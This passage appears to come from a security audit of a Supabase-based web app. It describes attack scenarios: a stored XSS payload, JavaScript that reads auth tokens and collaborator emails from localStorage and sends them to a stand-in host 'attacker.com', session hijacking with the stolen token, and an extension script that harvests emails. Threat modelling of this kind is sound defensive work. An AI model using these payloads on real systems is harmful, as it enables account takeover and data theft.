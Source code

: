 ### 2.1 Scenario: Complete Account Takeover via XSS

**Attack Chain**:

1. **Initial Compromise**: Attacker injects XSS via stored content
```typescript
// Malicious idea title stored in database
POST /api/ideas
{
  "title": "<img src=x onerror='eval(atob(\"BASE64_PAYLOAD\"))'>"
}
```

2. **Token Exfiltration**: XSS payload executes on victim's browser
```javascript
const projectRef = window.location.hostname.match(/([^.]+)\.supabase\.co/)?.[1]
const authToken = localStorage.getItem(`sb-${projectRef}-auth-token`)
const emails = localStorage.getItem('collaboratorEmailMappings')
const adminMode = sessionStorage.getItem('adminMode')

// Exfiltrate all sensitive data
fetch('https://attacker.com/harvest', {
  method: 'POST',
  body: JSON.stringify({ authToken, emails, adminMode })
})
```

3. **Session Hijacking**: Attacker uses stolen token
```javascript
// On attacker's machine
localStorage.setItem('sb-xyz-auth-token', stolenToken)
sessionStorage.setItem('adminMode', 'true')
window.location.href = 'https://app.prioritas.com/admin'
// Full admin access achieved
```

**Impact**: Complete control over victim's account + admin privileges

---

### 2.2 Scenario: Mass Email Harvesting for Phishing

**Attack Chain**:

1. **Malicious Browser Extension**: User installs compromised extension
2. **Silent Data Collection**: Extension reads localStorage on all domains
```javascript
// extension/background.js
chrome.tabs.executeScript({
  code: `
    const emails = localStorage.getItem('collaboratorEmailMappings')
    if (emails) {
      chrome.runtime.sendMessage({ type: 'emails', data: JSON.parse(emails) })
    }
  `
})
```
